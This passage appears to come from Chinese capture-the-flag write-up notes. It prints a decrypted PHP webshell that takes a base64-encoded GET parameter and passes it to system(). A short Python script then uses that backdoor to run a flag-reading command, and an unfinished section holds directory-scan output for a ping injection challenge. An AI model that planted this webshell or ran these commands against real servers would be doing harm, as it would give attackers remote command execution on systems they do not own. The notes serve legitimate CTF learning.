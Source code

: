 			  }
			  ```
		- 最后的解密结果
			- ```php
			  <?php
			  $erzo_f851f55b = [
			      base64_decode('ZmxhZ3sjX2FiY2RlZn0='),
			      base64_decode('ZmxhZ3tiMHdfYjB3fQ=='),
			      base64_decode('ZmxhZ3t0ZXRfZmxhZ30='),
			      base64_decode('ZmxhZ3s5OSF6elN3Y30='),
			      base64_decode('ZmxhZ3tkZWJ1R19mdHd9'),
			      base64_decode('ZmxhZ3toZWxsX3llYWh9'),
			      base64_decode('ZmxhZ3t0NHN0fQ==')
			  ];
			  $igxc_9ce88802 = '';
			  $bbmg_1b267619 = 0;
			  foreach ($erzo_f851f55b as &$djkg_417c4fa3) {
			      $igxc_9ce88802 = $djkg_417c4fa3[$bbmg_1b267619] . $igxc_9ce88802;
			      $bbmg_1b267619++;
			  };
			  if (isset($_GET[$igxc_9ce88802])) {
			      $grxe_fd6b6fc9 = $_GET[$igxc_9ce88802];
			      $pgck_32cfe6c1 = base64_decode($grxe_fd6b6fc9);
			      $jipp_8a561003 = substr($pgck_32cfe6c1, 5, -5);
			      echo $jipp_8a561003;
			      system($jipp_8a561003);
			  } else {
			      echo base64_decode('NDA0');
			  };
			  
			  ```
	- webshell利用
		- ```python
		  passwd = "4h{galf"
		  r = requests.get(f"{url}backdoor_a5f9d3.php", params = {
		      passwd: enc_dec.base64_encode("12345{}67890".format("/readflag give me the flag"))
		  })
		  print(r.text)
		  ```
- # 施工中
	- 仔细ping
		- ```
		  [10:08:27] 200 -    0B  - /flag.php
		  [10:08:31] 302 -  120B  - /index.php  ->  /?ip=127.0.0.1
		  [10:08:32] 302 -  120B  - /index.php/login/  ->  /?ip=127.0.0.1
		  
		  ```
		- 观察到urlencode之后仍然可以正常识别
